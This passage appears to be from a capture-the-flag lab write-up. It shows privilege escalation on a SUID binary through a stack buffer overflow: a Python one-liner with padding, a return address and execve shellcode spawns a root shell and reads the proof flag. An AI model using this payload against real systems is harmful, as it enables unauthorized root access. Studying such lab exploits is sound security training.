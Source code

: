 Note: gdb drops privileges on SUID, in order to spawn the new shell with SUID you need to execute the exploit outside of gdb, or the shell will spawn as the unprivileged user.

The binaries in <code>choose_wisely/door*</code> are rotated, the largest is the vulnerable binary.

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">Exploit Process</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">du -sh *<br></span>
        </p>
        <p class="line">
          <span class="output">12K door1<br></span>
        </p>
        <p class="line">
          <span class="output">12K door2<br></span>
        </p>
        <p class="line">
          <span class="output">16K door3<br></span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">cd door3<br></span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90" * <br>10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\<br>xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')</span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">whoami<br></span>
          <span class="output">root<br></span>
          <span class="output"><br></span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">cat /root/Proof.txt<br></span>
          <span class="output">You win this time young Jedi...</span>
          <span class="output"><br></span>
          <span class="output">a70354f0258dcc00292c72aab3c8b1e4<br></span>
        </p>
      </div>
    </div>
</section>


##Root dance

![Root Dance](/img/girl-dancing-excited.gif)

